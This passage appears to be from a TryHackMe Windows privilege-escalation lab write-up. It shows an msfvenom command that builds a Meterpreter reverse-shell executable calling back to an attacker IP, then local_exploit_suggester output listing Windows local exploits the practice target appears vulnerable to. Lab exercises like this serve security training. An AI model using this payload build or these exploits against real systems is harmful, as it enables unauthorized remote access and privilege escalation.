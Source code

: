 ```
kali@kali  ~/Documents/THM/windowsprivescarena  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.9.12.198 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.99.186 - Collecting local exploits for x86/windows...
[*] 10.10.99.186 - 40 exploit checks are being tried...
[+] 10.10.99.186 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 10.10.99.186 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
```

{% hint style="success" %}
No answer needed
{% endhint %}

